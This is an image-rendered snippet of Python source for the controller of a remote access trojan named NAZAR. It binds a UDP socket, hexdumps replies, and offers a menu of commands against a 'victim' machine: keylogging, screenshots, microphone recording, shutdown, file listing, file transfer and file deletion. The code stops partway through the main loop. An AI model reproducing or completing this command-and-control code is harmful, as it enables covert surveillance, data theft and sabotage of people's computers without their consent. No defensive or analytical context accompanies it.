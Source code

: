 ```
def get_response(sock, should_loop):
    started = False
    total_payload = b''
    while(should_loop or not started):
        try:
            payload, client_address = sock.recvfrom(4096)
        except ConnectionResetError:
                payload, client_address = sock.recvfrom(4096)

        total_payload += payload
        # Good enough stop condition
        if (len(payload) &gt;= 4
            and payload[:3] == b'---'
            and payload[4] &gt;= ord('0')
            and payload[4] &lt;= ord('9')):

            should_loop = False
        started = True
    hexdump.hexdump(total_payload)

MENU = """Welcome to NAZAR. Please choose:
          999 - Get a ping from the victim.
          555 - Get information on the victim's machine.
          311 - Start keylogging (312 to disable).
          139 - Shutdown victim's machine.
          189 - Screenshot (313 to disable).
          119 - Record audio from Microphone (315 to disable).
          199 - List drives.
          200 - List recursivley from directory*.
          201 - Send a file*.
          209 - Remove file*.
          599 - List devices.

* (append a path, use double-backslashes)
quit to Quit,
help for this menu.
            """

def get_message():
    while True:
        curr_message = input('&gt; ').strip()
        if 'quit' in curr_message:
            return None
        if 'help' in curr_message:
            print(MENU)
        else:
            return curr_message

def get_sock():
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    server_address = '0.0.0.0'
    server = (server_address, SERVER_PORT)
    sock.bind(server)
    return sock     

def main(ip_addr):
    sock = get_sock()

    print(MENU)
    multi_packets = ["200","201", "119", "189", "311", "199", "599"]
    single_packets = ["999", "555"]
    all_commands = single_packets + multi_packets
    while True:
```